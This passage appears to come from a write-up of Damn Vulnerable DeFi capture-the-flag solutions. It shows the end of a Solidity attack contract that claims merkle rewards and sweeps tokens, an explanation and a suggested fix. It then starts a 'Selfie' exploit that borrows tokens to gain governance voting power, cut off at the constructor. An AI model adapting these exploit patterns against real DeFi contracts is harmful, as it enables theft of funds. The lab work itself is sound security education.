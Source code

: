 ```solidity
        // Claim maximum rewards using merkle proof
        distributor.claimRewards(proof, amount);
        
        // Transfer all claimed tokens to recovery
        token.transfer(recovery, token.balanceOf(address(this)));
    }
}
```

### Why it works
1. The merkle tree contains inflated claim amounts
2. Proper proof validation allows claiming maximum rewards
3. No time locks or claim limits prevent immediate withdrawal

### Fix
```solidity
// Add proper claim limits and validation
mapping(address => uint256) public claimedAmounts;
uint256 public maxClaimPerAddress;

function claimRewards(bytes32[] memory proof, uint256 amount) external {
    require(amount <= maxClaimPerAddress, "Exceeds max claim");
    require(
        claimedAmounts[msg.sender] + amount <= maxClaimPerAddress,
        "Already claimed max"
    );
    
    // Verify merkle proof
    require(
        MerkleProof.verify(proof, merkleRoot, keccak256(abi.encodePacked(msg.sender, amount))),
        "Invalid proof"
    );
    
    claimedAmounts[msg.sender] += amount;
    token.transfer(msg.sender, amount);
}
```

---

## Challenge 6: Selfie

### Vulnerability
The `SelfiePool` governance system allows borrowing tokens to gain voting power and pass malicious proposals.

### Exploit Code
```solidity
// Attack contract
contract SelfieAttacker {
    SelfiePool pool;
    SimpleGovernance governance;
    DamnValuableVotes token;
    address recovery;
    uint256 actionId;
    
    constructor(
        SelfiePool _pool,
        SimpleGovernance _governance,
        DamnValuableVotes _token,
        address _recovery
    ) {
```